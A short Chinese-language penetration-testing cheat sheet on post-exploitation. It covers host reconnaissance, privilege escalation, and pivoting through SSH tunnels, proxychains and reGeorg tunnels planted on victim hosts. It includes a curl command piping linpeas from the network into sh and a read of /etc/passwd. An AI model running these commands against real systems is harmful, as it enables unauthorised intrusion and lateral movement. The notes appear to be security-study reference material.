 ## information

* hostname：電腦的名稱
* uname -a: 系統的核心版本
* ps aux / top：電腦的執行 process
* ifconfig / ip a：電腦的網路資訊
* pwd：當前的資料夾
* w：登入的 TTY 資訊
* cat /etc/passwd：電腦中的使用者資訊

## discover host

## Privilege escalation (提權)

```
sudo -l
- https://gtfobins.github.io/
```
```
Linpeas
- curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

## Port Forwarding(端口轉發 代理)
**用途：内網橫向、當作跳板**

- Proxy Chains
    - sudo vim /etc/proxychains4.conf
    - socks5 127.0.0.1 9487
    - USAGE：`proxychains <command>`

- SSH Tunnel
    - Remote Port Forwarding：`ssh -R kali:<port> user@linux host`(受害主機)
    - Dynamic Port Forwarding：`ssh –D 127.0.0.1:9487 user@hostA`(受害主機)
    - socks server
- Chisel
- netsh portproxy (Windows)
- reGeorg (AV會抓)
    - `https://github.com/sensepost/reGeorg`
        - tunnel.ashx 放在目標機上
        - 攻擊機上執行：python2 reGeorgSocksProxy.py -u 'url' -p 'port'
- Neo-reGeorg
    - https://github.com/L-codes/Neo-reGeorg
        - python neoreg.py generate –k 密碼
        - python neoreg.py –k 密碼 –u 網址

- 多層跳板：Venom (內網路由)：https://github.com/Dliv3/Venom

# Windows
